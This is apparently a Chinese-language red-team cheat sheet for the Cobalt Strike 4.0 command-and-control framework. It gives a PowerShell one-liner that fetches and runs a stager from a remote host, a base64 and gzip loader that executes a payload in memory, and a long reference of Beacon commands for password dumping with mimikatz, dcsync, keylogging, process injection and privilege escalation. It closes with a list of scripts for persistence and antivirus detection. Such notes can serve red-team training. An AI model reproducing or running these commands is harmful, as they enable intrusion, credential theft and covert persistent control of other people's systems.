 # cobalt strike

上线
免杀
提权
## CobaltStrike4.0目录结构

```shell
.
├── agscript    //拓展应用的脚本
├── c2lint      //检查c2配置文件的语法和预览
├── cobaltstrike.auth
├── cobaltstrike.jar    主题程序
├── cobaltstrike.jar.cpgz
├── cobaltstrike.store
├── cobaltstrike_zh-hans.jar
├── cobaltstrike_zh-hant.jar
├── data
│   ├── archives.bin
│   ├── c2info.bin
│   ├── listeners.bin
│   ├── sessions.bin
│   └── targets.bin
├── icon.ico
├── libicmp64.so
├── libicmp.so
├── libtapmanager64.so
├── libtapmanager.so
├── peclone     //解析dll
├── start.bat   //window客户端启动脚本
├── start.sh    //linux客户端启动shell脚本
├── teamserver  //Linux服务端启动shell脚本
├── third-party //第三方工具
│   ├── erebus
│   │   ├── exp
│   │   │   ├── 8120
│   │   │   ├── com
│   │   │   └── jp
│   │   │       └── jp.vmp.exe
│   │   ├── gather
│   │   │   ├── chrome80.exe
│   │   │   └── cookies.exe
│   │   ├── LICENSE
│   │   ├── Main.cna
│   │   ├── modules
│   │   │   ├── auxiliary.cna
│   │   │   ├── commands.cna
│   │   │   ├── funs.cna
│   │   │   ├── gather.cna
│   │   │   ├── helper.cna
│   │   │   ├── lpe.cna
│   │   │   ├── persistence.cna
│   │   │   ├── post.cna
│   │   │   ├── pwn.cna
│   │   │   └── third.cna
│   │   ├── post
│   │   │   └── SharpShell.exe
│   │   ├── README.md
│   │   ├── script
│   │   │   ├── Invoke-EternalBlue.ps1
│   │   │   └── MS16-032.ps1
│   │   ├── server
│   │   │   └── Erebus-email.cna
│   │   ├── third
│   │   │   ├── EventLogMaster
│   │   │   │   ├── eventlog.cna
│   │   │   │   └── Func.ps1
│   │   │   └── rdpthief
│   │   │       └── RdpThief.cna
│   │   └── ver.txt
│   ├── Erebus-master.zip
│   ├── README.winvnc.txt
│   ├── winvnc.x64.dll
│   └── winvnc.x86.dll
├── 简体中文版.bat
└── 繁体中文版.bat
```


## Listener和http beacon:

创建http_beacon将stage放到web服务的/a路径下.

利用powershell,bitsadmin,regsvr32等命令行执行脚本,来执行后门

```shell
powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://xxx/a'))"
```
各个参数:
- powershell -command/-c 将字符串单做命令执行 一定要使用`双引号"`
- Invoke-Expression（IEX的别名）：用来把字符串当作命令执行
- WindowStyle Hidden（-w Hidden）：隐藏窗口
- NoProfile（-NoP）：PowerShell控制台不加载当前用户的配置文件

从cobaltstrike下载http_beacon:

```powershell
$s=New-Object IO.MemoryStream(,[Convert]::FromBase64String("xxx"));IEX (New-Object IO.StreamReader(New-Object IO.Compression.GzipStream($s,[IO.Compression.CompressionMode]::Decompress))).ReadToEnd();
```

将下载stage放到内存中不落地执行后会建立和cc服务端的tcp连接:

![path](https://nanazeven.github.io/image/2021-11-07-14-38-11.png)


## Beacon控制台

Beacon的通信机制是异步的,输入的命令不会立即执行而是会被加入到队列中,当Beacon回连时在将队列中的指令逐个执行,可以clear清除当前队列的指令

默认情况下Beacon每隔60秒回连一次,使用sleep命令更改.

```shell
argue [command] [fake arguments] //进程参数欺骗 命令 假参数 欺骗某个命令参数
```

```shell
blockdlls [start|stop] //阻止子进程加载非微软签名的dll 此特性为windows10独有
```

```shell
checkin 强制回连时发送主机信息
getprivs 启用当前访问令牌所拥有的特权
getsystem 尝试模拟一个SYSTEM账号的令牌获取System权限
getuid 获取当前令牌关联的用户ID
hashdump 转储密码哈希
downloads 列出正在下载的文件
jobs 查看后渗透任务列表 
logonpasswords 执行mimikatz获取密码
ls 显示目标机当前目录
screenshot 截屏
setenv 设置环境变量
unlink 断开与子Beacon的连接
upload 上传文件
```

```shell
dcsync 从域控中提取密码哈希
dcsync [DOMAIN.FQDN] 提取所有帐户的密码哈希
dcsync [DOMAIN.FQDN] [DOMAIN\user] 特定用户的
```

```
desktop VNC远程桌面
```

```
dllinject pid dllpath //反射dll进程注入
```

```
download file_path //下载目标机文件
```

```
elevate [exploit] [listener] //提权并生成一个高权限会话
runasadmin [exploit] [command] [args] //提权并执行命令
```

```
execute [program] [arguments] //执行程序（无回显）
```

```
execute-assembly .netpath [arguments] //内存加载.net程序执行
```

```
shell [command] //在cmd执行指令
```

```
inline-execute [/path/to/file.o] [args] 
```

```
inject [pid] <x86|x64> [listener] //指定一个进程pid派生新的session
```

```
keylogger [pid] [x86|x64] //将键盘记录器注入到指定进程 无参数则随机pid注入
```

```
jump [exploit] [target] [listener] //target上执行exp返回一个到listener的回话
remote-exec [method] [target] [command]//在target上执行command
run [program] [arguments] //在目标主机上执行进程
```

```
ppid [pid] //父进程欺骗 将指定进程作为父进程
ppid 直接执行ppid取消父进程欺骗
runu [pid] [command] [arguments] //也是父进程欺骗 
```

```
psinject [pid] [arch] [commandLet] [arguments] //在指定进程中执行powershell命令
```

```
reg query [x86|x64] [root\path] //注册表查询
```

```
spawn [x86|x64] [listener] //派生会话 Beacon默认使用rundll32.exe派生 
spawnto x64 C:\Windows\System32\notepad.exe //改用notepad.exe派生
```

```
ssh [target:port] [user] [pass] //beacon内置了ssh客户端
```

## 脚本管理Script Manager

Cobalt Strike下的Script Manager下,可以加载脚本用于拓展

- elevate.cna 拓展提权
- CVE-2018-4878.cna
- ArtifactPayloadGenerator.cna
- AVQuery.cna 查询安装的杀软
- CertUtilWebDelivery.cna 利用CertUtil和rundll32生成会话
- RedTeamRepo.cna  常用渗透命令
- ProcessColor.cna 显示带有颜色的进程列表
- SMBPayloadGenerator.cna  生成基于SMB的payload
- A11 In One.cna	就是all in one， 不过还没写好
- AVQuery.cna	列出安装的杀毒。对国外的支持好一点
- ArtifactPayloadGenerator.cna	创建多种类型payLoad项部菜单
- CertutilwebDelivery.cna	使用Certutil.exe无文件传送或spawn
- EDR.cna	检测有无终端安全产品
- logvis.cna	Beacon命令日志可视化
- ProcessColor.cna	进程上色
- ProcessMonitor.cna	检测指定时间间隔内的程序启动情况 Start 1m
- RedTeamRepo.cna	真 • 命令提示符。红队命令集。
- SMBPayloadGenerator.cna	生成基于SMBListener的payload
- Logging/logger.cna	导出1og到htmL
- Persistence/Persistence_Menu.cna	所有持久控制脚本的一个集合，似乎漏了Bitsadmin
- UserSchtasksPersist.cna	利用创建用户计划任务实现持久控制（用的schtasks）
- ServiceEXEPersist.cna	利用创建admin级别的自定义服务实现控制（用的SC)
- RegistryPersist.cna	利用写自定义注册表项的方式实现持久控制
- HKCURunKeyPSRegistryPersist.cna	利用在HKCU的run键写一个PSH的b64载荷实现持久控制
- HKLMRunKeyPSRegistryPersist.cna	利用在HKLN的run键写一个PSH的b64载荷实现持久控制
- WMIEventPersist.cna	利用PSH创建一个system级别的WMI Event实现控制
- WMICEventPersist.cna	利用WMIC创建一个system级别的WMI Event实现控制
- StartupGPOPersist.cna	利用在组策略的GPO中新建条目进而调用PSH脚本实现控制
- Stickykeys(OSK)BackDoor	利用替换粘滞键来创建后门实现持久控制（Menu里带的）
- StartUpFolderPersist.cna	利用Windows的启动文件夹实现持久控制
- Bitsadmin.cna	利用当前用户创建一个Bitsadmin任务来蹲管理员登陆实现控制